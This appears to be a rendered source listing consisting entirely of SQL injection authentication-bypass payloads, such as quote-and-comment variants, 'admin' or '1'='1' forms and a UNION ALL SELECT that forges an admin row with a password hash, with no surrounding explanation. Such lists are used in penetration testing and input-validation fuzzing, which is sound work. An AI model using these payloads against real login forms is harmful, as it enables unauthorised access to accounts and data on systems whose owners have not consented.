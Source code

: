     '-'
    ' '
    '&'
    '^'
    '*'
    ' or ''-'
    ' or '' '
    ' or ''&'
    ' or ''^'
    ' or ''*'
    "-"
    " "
    "&"
    "^"
    "*"
    " or ""-"
    " or "" "
    " or ""&"
    " or ""^"
    " or ""*"
    or true--
    " or true--
    ' or true--
    ") or true--
    ') or true--
    ' or 'x'='x
    ') or ('x')=('x
    ')) or (('x'))=(('x
    " or "x"="x
    ") or ("x")=("x
    ")) or (("x"))=(("x
    or 1=1
    or 1=1--
    or 1=1#
    or 1=1/*
    admin' --
    admin' #
    admin'/*
    admin' or '1'='1
    admin' or '1'='1'--
    admin' or '1'='1'#
    admin' or '1'='1'/*
    admin'or 1=1 or ''='
    admin' or 1=1
    admin' or 1=1--
    admin' or 1=1#
    admin' or 1=1/*
    admin') or ('1'='1
    admin') or ('1'='1'--
    admin') or ('1'='1'#
    admin') or ('1'='1'/*
    admin') or '1'='1
    admin') or '1'='1'--
    admin') or '1'='1'#
    admin') or '1'='1'/*
    1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
    admin" --
    admin" #
    admin"/*
    admin" or "1"="1
    admin" or "1"="1"--
    admin" or "1"="1"#
    admin" or "1"="1"/*
    admin"or 1=1 or ""="
    admin" or 1=1
    admin" or 1=1--
    admin" or 1=1#
    admin" or 1=1/*
    admin") or ("1"="1
    admin") or ("1"="1"--
    admin") or ("1"="1"#
    admin") or ("1"="1"/*
    admin") or "1"="1
    admin") or "1"="1"--
    admin") or "1"="1"#
    admin") or "1"="1"/*
    1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
